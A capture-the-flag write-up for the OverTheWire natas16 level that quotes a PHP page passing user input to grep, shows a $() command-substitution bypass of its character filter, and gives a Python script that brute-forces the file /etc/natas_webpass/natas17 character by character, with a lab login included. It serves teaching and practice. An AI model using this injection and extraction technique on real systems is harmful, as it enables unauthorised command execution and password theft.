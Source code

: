 This is a more secure version of `natas9`. 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];
}

if($key != "") {
	if(preg_match('/[;|&`\'"]/',$key)) {
		print "Input contains an illegal character!";
	} else {
		passthru("grep -i \"$key\" dictionary.txt");
	}
}
?>
```

It filters for specific characters, preventing us from doing the same thing as `natas9`. When this program runs the `passthru` command, the key is enclosed in quotes, making it a string. So regularly, we can't execute strings. But if we use `$()`, we could actually execute it. We can test this hypothesis by typing this text into the input:

```sh
$(echo Asians)
```

This gave us "*Asians*". So we can execute commands from this. However, we can just do `$(cat /etc/natas_webpass/natas17)` because the output of this command will be fed into the outer grep command, which will give us nothing. So we need to brute force this just like the previous level.

Since the output of the inner command will be fed into the outer grep command, we could try grepping each characters to derive the password. We can combine the output of the inner grep command with a word that we know is in `dictionary.txt` like "*Asians*" for example. If we don't find the correct character, then the output of the inner command will be empty, which won't affect the outer command's grepping for "*Asians*" and it would still output "Asians". But if we do find the correct character, then the output of the inner command will be combined with "*Asians*", making it so that we the outer grep command will be grepping for "*inner_command_output + Asians*" instead of just "*Asians*". So all we need to do is try to derive each of the 32 characters. We could do this using a similar script to `natas15` (since it didn't specify any POST request when uploading the input into the script, we'll use GET requests):

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

characters = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in characters:
        command = '$(grep -E ^%s%c.* /etc/natas_webpass/natas17)Asians' % (flag, char)
        response = requests.get(url, auth=(username, password), params={"needle" : command})
        
        if "Asians" not in response.text:
            flag += char
            print(f'Building flag: {flag}')
            break

print(f'Complete flag: {flag}')
```

The regex (used with `-E` for extended regex):
- `^` means assert position at the start of the line
- `%s%c` are placeholder, helps us combine both the flag being built and testing the next correct character.
- `.` matches any character (except for line terminators)
- `*` matches the previous token for unlimited amount of times.

Here's the output:
```

```